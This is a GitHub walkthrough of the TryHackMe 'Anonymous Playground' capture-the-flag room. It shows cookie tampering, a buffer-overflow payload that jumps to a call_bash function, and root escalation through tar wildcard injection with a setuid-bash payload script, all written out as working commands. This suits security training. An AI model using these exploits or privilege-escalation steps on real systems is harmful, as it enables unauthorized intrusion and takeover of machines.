# Anonymous Playground CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Anonymous Playground** CTF challenge on [TryHackMe](https://tryhackme.com/room/anonymousplayground). 
---

we see open ports 22 and 80



in the robots.txt we see folder `/zYdHuAKjP`



if we head to this folder we see information that we dont have access 



we also see a comment about `/upcoming.php` but there is a 404 error



running feroxbuster scan but didnt find anything special



going back to /zYdHuAKjP we can check the cookies tab and we see a cookie called acces and value denied



i tried changing the value to granted, it worked and we have got some interesting info



we can see a pattern of one lower-case and one upper-case letter and we see that the first few characters are the same on the right and left side hEzAdCfHzA, from the hint we also know: `'zA' = 'a'`

after writing a python script with AI i decoded the secret message (it looks like credentials)



i tried using this as ssh credentials and they worked !! we have access to shell



we can grab the user 1 flag



we see a note that informs us that we need to reverse a C program



after looking at ghidra we see function gets() so we can test for buffer overflow, using this command we can check how long input will generate segmentation fault



```
for i in {1..200}; do echo "Testowanie z długością $i" && echo $(printf 'A%.0s' $(seq 1 $i)) | ./hacktheworld; done
```



we see that we can input 72 A before buffer overflow

in ghidra and radare2 we can also find function called call_bash()





by using gdb we can determin its address when we create buffer overflow we will jump to it `0x40065b`

```
$ gdb ./hacktheworld
(gdb) break call_bash
```



after providing AI with an addresss and the size of 72 it generated this command to exploit buffer overflow, it works but we lose the shell

```
python3 -c "print('A'*72 + '\x5b\x06\x40\x00\x00\x00\x00\x00')" | ./hacktheworld
```



to make it work we need to use this command

```
(python -c 'print "A"*72 + "\x5b\x06\x40\x00\x00\x00\x00\x00"';cat) | ./hacktheworld
```

we now have access as spooky



we can grab user 2 flag



now we need to get root access, after running linpeas we see some jobs being executed as root in crontab



to exploit this we can use `tar wildcards`, tar supports `--checkpoint` and `--checkpoint-action`, they can execute any command if we use right name for the files in the catalog 

first we need do create the malicious script

```
$ echo '#!/bin/bash' > payload.sh
$ echo 'cp /bin/bash /tmp/rootbash' >> payload.sh
$ echo 'chmod +s /tmp/rootbash' >> payload.sh
$ chmod +x payload.sh
```

next, we create files that tar will use to trigger the malicious script:

```
$ echo "" > '--checkpoint-action=exec=sh payload.sh'
$ echo "" > "--checkpoint=1"
```



now we need to wait a moment and then we use this command to gain root shell

```
/tmp/rootbash -p
```



now we have root access and root flag



# MACHINE PWNED
